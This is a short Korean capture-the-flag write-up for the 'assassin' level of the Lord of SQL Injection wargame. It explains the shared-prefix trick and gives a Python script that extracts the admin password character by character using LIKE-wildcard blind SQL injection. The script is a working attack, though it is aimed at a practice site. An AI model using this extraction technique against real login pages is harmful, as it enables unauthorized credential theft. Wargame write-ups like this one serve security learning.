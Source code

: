 어째서인지 찾아내지를 못했고 미궁속으로 빠진 나는 롤을 한판 했다.

<br>

## writeup

정신이 말끔해지니 드는 생각이 두 계정의 비밀번호의 시작이 같으면 해당 쿼리 결과값 상단에는 무엇이 노출되느냐였다. 앞선 문제들을 통해 no=1이 guest였고, no=2가 admin이였던 점을 감안해서 생각해보니 당연히 "Hello admin"을 바라는 조건문으로는 찾을 수가 없었다.

![image-20220609140455627](../img/image-20220609140455627.png)

이전 코드의 조건이 "Hello guest"일 때 얻은 guest 비밀번호를 가지고 코드를 약간 변형하기로 하였다.

```python
import requests
cookie = {'PHPSESSID':''}
flag = 1


def my_request(upw):
	url = f'https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php?pw={upw}'
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw(res):
	for i in range(46,127):
		upw = f'{res}'+chr(i)+'%'
		response = my_request(upw)
		if "Hello guest" in response.text:
			print("I got: ",chr(i))
			return chr(i)

		elif "Hello admin" in response.text:
			print("I got admin pw: ",chr(i))
			return chr(i)
			

	print("I think it was completed")
	flag = 0
	return 0

def solve():
	res = ""
	while flag:
		res += find_pw(res)


if __name__ == "__main__":
	solve()	
```

![image-20220609141332526](../img/image-20220609141332526.png)
